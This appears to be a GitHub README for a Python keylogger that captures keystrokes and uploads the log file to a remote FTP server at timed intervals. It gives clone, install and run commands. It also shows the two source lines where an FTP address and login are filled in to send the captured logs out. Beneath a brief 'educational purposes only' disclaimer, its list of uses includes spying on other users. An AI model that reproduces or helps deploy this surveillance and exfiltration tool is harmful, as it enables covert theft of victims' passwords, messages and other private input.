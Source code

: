 ## Keylogger 🖥️🔍

This is a straightforward keylogger crafted with the Python Keyboard library That uploads the log file to a remote **FTP** server .

This keyloggers are simple and barebones, yet they work like a charm! Feel free to fork and enhance it if you wish. 🍴✨



## Warning ⚠️☠️

**This project is intended for educational and research purposes only.**

Please use this keylogger responsibly and only on devices and systems for which you have explicit authorization.

The author(s) of this project are not responsible for any misuse or illegal activities involving this software.


## Installation Process 📥

First, clone the repository and navigate to the Keylogger directory:

```
$ git clone https://github.com/Advaidv121/Keylogger && cd Keylogger
```

Next, install Keylogger using pip3 with the following instructions:

```
$ pip install -r requirements.txt
```
## Pre Execution ⏮️

On line number **36** add the necessary ftp address for the log file to be uploaded into the ftp server
```
36. ftp=FTP('xx.xxx.xx.xx') #replace 'xx.xxx.xx.xx'
```
On line number **37** add the necessary username and password to login into the ftp server for upload
```
37. ftp.login('username','password')  #replace 'username' 'password'
```

## Execution 🏃‍♂️

Kickstart the keylogger by running 
```
python keylogger.py
```
It'll start logging your keystrokes immediately! ⌨️📝
And starts logging the log files into the **ftp** server based on the desired time interval🛜

## Potential Uses 💡

Keyloggers can be used for:

- Personal Control and File Backup: Ensure no one is using your computer in your absence. 🔒💼
- Self Analysis: Verify if your system is being accessed by someone else. 🕵️‍♂️💻
- Malicious Intent: Spy on other systems and users (Not recommended). 👀🚫"
